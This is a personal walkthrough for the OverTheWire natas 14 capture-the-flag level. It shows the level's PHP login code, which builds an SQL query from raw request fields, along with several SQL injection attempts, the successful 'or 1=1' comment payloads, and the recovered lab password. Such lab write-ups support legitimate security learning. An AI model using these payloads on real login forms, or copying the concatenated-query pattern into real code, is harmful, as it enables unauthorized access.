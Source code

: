 ```yaml
---
title: natas 14 walkthrough
description: over the wire natas 14
layout: libdoc_page
date: 1111-11-11
eleventyNavigation:
    key: natas-14 OverTheWire CTFs
    parent: OverTheWire CTFs
    title: natas 14 walkthrough
    order: 30
---
```

# Description
>    Username: natas14
> 
>     URL:      http://natas14.natas.labs.overthewire.org

## Source Code 
```php
<?php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas14', '<censored>');
    mysqli_select_db($link, 'natas14');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysqli_close($link);
} else {
}
?>
```

---
# Progress
## Observation
Server is using sql query. Definitely need to use [[sql injection MOC]].
## Trial
### Case 1 
Username : `3" or 1=1 --`
Password : `k`

Failed with error message : **Warning**: mysqli_num_rows() expects parameter 1 to be mysqli_result, bool given in **/var/www/natas/natas14/index.php** on line **24**
### Case 2
Username : `3" or 1=1 #`
Password : `k`
Successful login! The password for natas15 is SdqIqBsFcz3yotlNYErZSZwblkm0lrvx
### Case 3
Username : `3" or 1=1 -- `
Password : `k`
Successful login! The password for natas15 is SdqIqBsFcz3yotlNYErZSZwblkm0lrvx

---
# Hint

---
# Solving
## Category
- [[sql injection MOC]]
## Techniques
- 

## Tools
- 